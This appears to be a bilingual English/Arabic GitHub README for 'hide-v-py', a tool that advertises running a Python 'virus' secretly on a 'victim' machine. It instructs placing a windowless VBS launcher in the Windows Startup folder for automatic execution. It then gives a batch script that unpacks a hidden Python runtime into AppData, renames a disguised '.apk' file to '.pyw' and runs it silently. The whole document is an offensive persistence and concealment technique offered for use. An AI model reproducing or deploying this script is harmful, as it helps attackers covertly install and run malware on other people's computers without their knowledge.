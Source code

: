 # hide-v-py
## run virus python secretly \ تشغيل فيروس بايثون سرا
- You can use the software in more than one way \ تستطيع أستخدام البرمجية بأكثر من طريقة
- Download python Windows embeddable package (64-bit) / Windows embeddable package (64-bit) حمل بايثون 
## the victim / الضحية
> Note: put file no-console.vbs in `C:\Users\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup` because this autostart Folder.


> ملحوظة:ضع ملف no-console.vbs في `C:\Users\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup` لأن هذا المجلد لتشغيل تلقائي

## Example / مثال
```batch
cd C:\Users\see\AppData\Roaming\Microsoft\Windows
:: Windows-embeddable-package-python  in upgrade
IF EXIST "upgrade" (
cd C:\Users\see\AppData\Roaming\Microsoft\Windows\Start Menu\Programs
:: change file python to original name
ren "upgrade.apk" "upgrade.pyw"
:: go to python.exe
cd "C:\Users\see\AppData\Roaming\Microsoft\Windows\upgrade"
:: run file python by python.exe
python.exe "C:\Users\see\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\upgrade.pyw"
) ELSE (
:: if Folder upgrade not unzip
ren "update" "update.zip"
:: unzip update.zip
powershell -Command "Expand-Archive update.zip -DestinationPath C:\Users\see\AppData\Roaming\Microsoft\Windows"
ren "update.zip" "update"
cd C:\Users\see\AppData\Roaming\Microsoft\Windows\Start Menu\Programs
ren "upgrade.apk" "upgrade.pyw"
cd "C:\Users\see\AppData\Roaming\Microsoft\Windows\upgrade"
python.exe "C:\Users\see\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\upgrade.pyw"
)
exit 0
